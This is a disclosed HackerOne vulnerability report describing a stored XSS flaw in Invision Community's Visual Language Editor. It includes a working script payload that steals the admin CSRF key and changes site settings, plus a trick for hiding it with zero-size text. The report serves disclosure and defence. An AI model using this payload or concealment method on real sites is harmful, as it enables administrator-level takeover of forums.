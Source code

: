# XSS with Visual Language Editor tags

## Report Details
- **Report ID**: 2031855
- **URL**: https://hackerone.com/reports/2031855
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-06-19T21:03:38.509Z
- **Disclosed**: 2023-09-17T09:23:00.440Z

## Reporter
- **Username**: mpiosik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ips

## Vulnerability Information
1. Create a post/comment/signature/etc. with the following text: `#VLE#nothing#[<script>ips.getAjax()(ips.getSetting('baseURL') + 'admin/index.php?app=core&module=system&controller=login&do=getCsrfKey').done(({key}) => ips.getAjax()(ips.getSetting('baseURL') + 'admin/index.php?app=core&module=settings&controller=general', {'bypassRedirect':true, 'method': 'POST', 'data': {'csrfKey': key, 'site_online_checkbox':1, 'board_name': 'You have been hacked', 'form_submitted': 1}}))</script>]#!##`.
2. Using e.g. the browser's Inspect Element feature, you can surround the text in editor with `<span style='font-size: 0px;'>` and `</span>` to make it invisible for humans.
3. Once the content is posted, visit the page with the content created in step 1. with **Quick Translating** enabled (ACP -> Customization -> Localization -> Languages -> Translations -> Quick Translating, otherwise known as Visual Language Editor or VLE) using an account with administrator privileges.

**Note**: This is not very uncommon, as one could simply suggest an administrator to change wording of a language phrase, or correct a translation in an area where user-generated content (such as comments) is displayed.

4. After visiting the webpage, website name will change to `You have been hacked` (the change can be seen in the browser tab title or in the website's header).

The origin of the vulnerability is **line 254** in `applications/core/dev/js/global/controllers/customization/ips.customization.visualLang.js`. jQuery's `replaceWith` function, which accepts raw HTML, is fed with `.text()` output, which returns unescaped (non-HTML-encoded) text.

(Code from step 1 formatted for readability):
```js
ips.getAjax()(ips.getSetting('baseURL') + 'admin/index.php?app=core&module=system&controller=login&do=getCsrfKey').done(({key}) => ips.getAjax()(
    ips.getSetting('baseURL') + 'admin/index.php?app=core&module=settings&controller=general', {
        'bypassRedirect':true,
        'method': 'POST',
        'data': {
            'csrfKey': key,
            'site_online_checkbox':1,
            'board_name': 'You have been hacked',
            'form_submitted': 1
        }
    }
))

## Impact

**The attacker could gain full control of the website and its data, including the ability to execute raw PHP code**. This example shows only a relatively harmless and very simple usage of the vulnerability, but **it can be used to perform any other action on the administrator's behalf**. For instance, attacker could prepare a script to modify a theme template to execute any given PHP code.

Surrounding the VLE code with legitimate text and `<span class="font-size: 0px;">...</span>`makes it invisible for humans, and it could be hidden from built-in search as well by placing it in a signature, for example. The post/signature can then be removed. Without knowing exactly what to look for, the attack origin might never be found.

## Attachments
No attachments
